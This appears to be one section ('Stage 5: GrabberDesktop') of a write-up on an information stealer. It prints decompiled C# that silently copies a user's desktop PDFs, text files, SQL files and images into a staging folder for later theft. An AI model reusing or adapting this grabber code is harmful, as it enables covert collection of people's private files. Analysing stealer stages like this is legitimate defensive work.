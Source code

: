 # Stage 5: **GrabberDesktop**

```csharp
using System;
using System.Collections.Generic;
using System.IO;
using Main;

namespace Grabbers
{
	// Token: 0x02000014 RID: 20
	public class Desktop
	{
		// Token: 0x06000037 RID: 55 RVA: 0x000039AC File Offset: 0x00001BAC
		public static void GrabberDesktop()
		{
			try
			{
				Directory.CreateDirectory(Variables.workdir + "\\Grabbers\\DesktopFiles");
				string[] files = Directory.GetFiles(Variables.desktop);
				List<string> list = new List<string>();
				foreach (string text in files)
				{
					string extension = Path.GetExtension(text);
					bool flag = extension == ".pdf" || extension == ".txt" || extension == ".sql" || extension == ".jpg" || extension == ".png";
					if (flag)
					{
						Variables.foundFilesFromDesktop++;
						list.Add(text);
					}
				}
				List<string> list2 = new List<string>();
				foreach (string text2 in list)
				{
					list2.Add(Path.GetFileName(text2));
				}
				for (int j = 0; j < list.Count; j++)
				{
					bool flag2 = File.Exists(Path.Combine(Variables.workdir + "\\Grabbers\\DesktopFiles", list2[j]));
					if (flag2)
					{
						File.Delete(Path.Combine(Variables.workdir + "\\Grabbers\\DesktopFiles", list2[j]));
					}
					File.Copy(list[j], Path.Combine(Variables.workdir + "\\Grabbers\\DesktopFiles", list2[j]));
				}
			}
			catch
			{
			}
		}
	}
}
```
